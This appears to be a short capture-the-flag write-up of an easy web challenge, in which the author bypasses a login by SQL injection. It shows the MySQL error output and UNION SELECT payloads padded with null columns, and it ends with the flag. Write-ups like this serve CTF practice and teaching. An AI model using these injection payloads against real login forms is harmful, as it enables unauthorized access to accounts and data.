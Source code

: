 # EZ CTF

## Web

### Super Secure

**Difficulty:** Easy

**Statement:** This is so unbreakable!

***

The challenge is to bypass authentication via an SQLi.

I start by testing short payloads to find an entry point.

I get an interesting error with a simple `'` :

```sql
Could not successfully run query (SELECT * FROM members WHERE username = ''' AND password = 'd41d8cd98f00b204e9800998ecf8427e') from DB: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'd41d8cd98f00b204e9800998ecf8427e'' at line 1
```

Thanks to the errors returned by the server, I can build my payload.

So I try to exploit the SQLi with a UNION query: `1' UNION SELECT null-- -`

```sql
Could not successfully run query (SELECT * FROM members WHERE username = '1' UNION SELECT null-- -' AND password = 'd41d8cd98f00b204e9800998ecf8427e') from DB: The used SELECT statements have a different number of columns
```

The error message returned informs us that there are several columns.

So I will adjust my payload to satisfy the number of columns by adding `null` values:

```sql
1' UNION SELECT null,null,null-- -
```

![image](https://user-images.githubusercontent.com/49941629/167300247-9600e52e-ba68-4b0c-8dfb-454aba2d522e.png)

Flag : EZ-CTF{N0t_S0_S4f3_4ft3r_411}
